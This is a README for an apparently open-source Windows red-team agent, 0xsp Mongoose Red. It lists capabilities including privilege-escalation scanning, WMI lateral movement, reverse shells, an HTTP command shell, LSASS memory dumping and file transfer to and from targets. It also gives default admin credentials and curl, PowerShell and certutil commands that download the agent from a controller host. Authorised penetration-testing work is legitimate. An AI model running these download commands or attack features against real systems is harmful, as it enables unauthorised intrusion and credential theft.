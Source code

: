 [![GPLv3 license](https://img.shields.io/badge/License-GPLv3-blue.svg)](http://perso.crans.org/besson/LICENSE.html)
[<img src="https://img.shields.io/badge/join-telegram-blue">](https://t.me/join0xsp)
[<img src="https://img.shields.io/badge/build%20with-Lazarus-red.svg">](https://www.lazarus-ide.org/)
[<img align="right" src="https://github.com/lawrenceamer/0xsp-Mongoose/blob/0xsp-red/lg.png?raw=true" height="512" width="400">]()
[<img src="https://img.shields.io/badge/join-discord-orange">](https://discord.gg/Xsdxxkm)
<img src="https://img.shields.io/twitter/follow/zux0x3a?label=follow&style=social">

# 0xsp Mongoose Red for Winodws 

0xsp mongoose red version is provided to assist your needs during cyber security simulation, by using this version you will be able to audit a targeted windows operation system 
for system vulnerabilities, misconfigurations and privilege escalation attacks and replicate the tactics and techniques of an advanced adversary in a network.

with node js support for web application API, it becomes much easier for installation and customization in timely manner, the windows sensor agent will communicate with application API to transfer results, and receive commands as bidirectional technique. 

the agent is able to identify and detect windows exploits by using `windows update api` and `exploit database definitions` modules, the new release will detect also the following 
vulnerabilities.
 
* CVE-2019-0836
* CVE-2019-0841
* CVE-2019-1064
* CVE-2019-1130
* CVE-2019-1253
* CVE-2019-1385
* CVE-2019-1388
* CVE-2019-1405
* CVE-2019-1315
* CVE-2020-0787
* CVE-2020-0796
* CVE-2020-0797 

## Features 

* Windows Privilege escalation scanning techniques. 
* web application built with NodeJS 
* supports sqlite DB 
* Lateral movements techniques. [ video](https://www.youtube.com/watch?v=pEpiOrpyYs8)
* Bidirectional communication channel.[ video ](https://www.youtube.com/watch?v=tyhBuWCB_aY)
* Plugins online packaging.  
* Enhanced exploit detecter scripting engine. 
* weaponization of run-as-user windows api function. [Video](https://youtu.be/oe-BFZpV8nw)
* local network scanning and shares enumeration.
* lsass memory dummping technique (plugin).

### installation 

```
git clone --single-branch --branch 0xsp-red https://github.com/lawrenceamer/0xsp-mongoose 
cd 0xsp-mongoose/ 
npm install 
node index.js
```
default access credentials :
* username : admin 
* password : 0xsp

[<img align="right" src="https://i.imgur.com/EQOsiv8.png">]()



### quick deploy of agent 

```
#example 1 
curl.exe -o agent.exe http://nodejsip:4000/release/x64.exe
#example 2 
powershell.exe -command (new-object net.webclient).downloadfile('http://nodejsip:4000/release/x64.exe','c:\tmp\agent.exe');
#example 3 
certutil.exe -urlcache -split -f "http://nodejsip:4000/release/x64.exe" agent.exe

```


### Usage 
```
-s --retrieve windows services and installed drivers.
-u --retrieve information about Users, groups, roles.
-c --search for senstive config files by extension.
-n --retrieve network information,network interfaces, connection details.
-w --enumerate for writeable directories, access permission Check, modified permissions.
-i --enumerate windows system information, Sessions, log information.
-l --search in any file for specific string , ex : agent.exe -l c:\ password *.config.
-o --specify host address of nodejs application.
-p --enumerate installed Softwares, Running Processes, Tasks .
-e --kernel inspection Tool, it will help to search through tool databases for windows kernel vulnerabilities
-x --password to authorize your connection with node js application.
-d --download Files directly into Target Machine .
-t --upload Files From target machine into node js application.
-m --run all known scan Types together .

-r --spawn a reverse shell with specific account(weaponization of run-as-user windows api function).
-lr --Lateral movement technique using WMI (e.g -lr -host 192.168.14.1 -username administrator -password blabla -srvhost nodejsip )
-nds --network discovery and share enumeration
-cmd --transfer commands via HTTP Shell
-interactive --starting interactive mode (eg : loading plugins ..etc)
-username --identity authentication for specific attack modules.
-password --identity authentication for specific attack modules.
-host --identify remote host to conduct an attack to.
-srvhost --set rhost of node js application.(bidirectional communications).
```
### quick wiki 
https://github.com/lawrenceamer/0xsp-Mongoose/wiki/0xsp-mongoose-red-version-2.1

### detailed research site 
https://0xsp.com 

### contribution 
the project is opensourced and has been built with Lazarus IDE, you are welcomed to suggest any ideas or reporting bugs 

### tool tutorials 
make sure to subscribe into the following channel to be notified when new tutorial and tricks published for 0xsp 
https://www.youtube.com/channel/UCoEr6Qsyd6oMsPmaJPQ_FOg

